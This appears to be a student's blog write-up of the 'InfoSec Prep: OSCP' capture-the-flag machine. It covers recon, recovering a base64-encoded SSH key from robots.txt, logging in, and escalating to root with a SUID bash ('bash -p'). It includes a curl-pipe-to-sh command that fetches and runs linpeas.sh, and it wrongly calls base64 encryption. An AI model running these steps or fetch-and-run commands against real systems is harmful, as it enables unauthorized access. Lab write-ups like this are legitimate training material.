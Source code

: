 ```yaml
---
layout: post
title: writeup
tags: cyber-security
category: school
date: 02-10-2022
---
```


# InfoSec Prep: OSCP
![](/blog/1.png)
## first of all we need to innumerate the machine
here we r going to use the nmap scan
![](/blog/nmap_first.png)
we we found that there is an open port with ssh
## now we r going to see some basic things
lets take a look at /robots.txt
boom we found that there is a hidden file called secret
![](/blog/2.png)
![](/blog/3.png)
its obvious that its a base 64 encryption
so we r going to encrypt it
![](/blog/4.png)
it contains an ssh private key
now we have the ssh private key so we need its user to connect with the machine using ssh
on the main page of the website we find that someone mentioned the user "oscp"
![](/blog/5.png)
## now we will try to connect the machine
![](/blog/6.png)
![](/blog/dkhlna.png)
ouah! we'r in
we are not root so we have to try to be root
I'm going to run my favorite script written by my dear friend MZA7A to find all vulnerabilities
and sus files
```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

I have tried to exploit those vulnerabilities but i didn't get anything so
let's take a look at the sus files 
![](/blog/susfile.png)
we see that file in /usr/bin/ called "bash" with its yellow color and we see that bash has some interesting permissions set
the file is called bash so lets open the bash man and try to understand well
![](/blog/-p.png)
this "-p" could help us
### SUID
Set owner User ID
it runs with the suid bit set and may be exploited to access the file system or maintain access with elevated privileges working as a suid  backdoor if it's used to run ```sh -p``` omit the ```-p``` arguments on systems like Debian that allows the default ```sh``` to run with SUID privileges
## lets run this command ```/usr/bin/bash -p```
![](/blog/done.png)
we are root now and we got the flag
